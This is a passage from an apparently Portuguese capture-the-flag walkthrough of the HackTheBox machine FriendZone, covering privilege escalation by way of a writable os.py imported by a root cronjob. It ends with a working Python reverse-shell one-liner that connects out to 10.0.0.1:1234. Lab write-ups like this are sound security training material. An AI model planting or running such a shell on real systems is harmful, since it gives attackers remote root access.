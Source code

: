 Passamos pra máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-friendzone/Fri_lin1.png)

Executamos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-friendzone/Fri_lin2.png)

De cara não encontramos nada de cor maneira pra escalar privilégio, mas encontramos algo útil, nos arquivos executados por todos, temos um tal de *os.py*, não é comum acharmos esse arquivo desse modo, então já cresce um pouco a importância de olharmos ele mais a fundo

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-friendzone/Fri_lin3.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-friendzone/Fri_lin4.png)

Ta, mas e daí? Podemos escrever nele mas não sabemos se é ou não executado, ai que entra a importância de termos outra ferramenta a nossa disposição, que é o `pspy`

#### Utilizando pspy

Para quem não sabe aqui está o link dele

> https://github.com/DominicBreuker/pspy

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-friendzone/Fri_pspy.png)

Passamos ele pra máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-friendzone/Fri_pspy1.png)

Executamos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-friendzone/Fri_pspy2.png)

E... surpresa, há um cronjob de root rodando esse report.py, agora ficou fácil pra caramba!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-friendzone/Fri_pspy3.png)

Verificamos o que tem nesse report.py

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-friendzone/Fri_pspy4.png)

Êpa, ele importa o mesmo os.py que podemos escrever, então se colocarmos nosso shell lá dentro, ele irá executar e nos dar um shell. Vamos lá então

#### Escalando pra root

O shell eu peguei do PentestMonkey

> http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
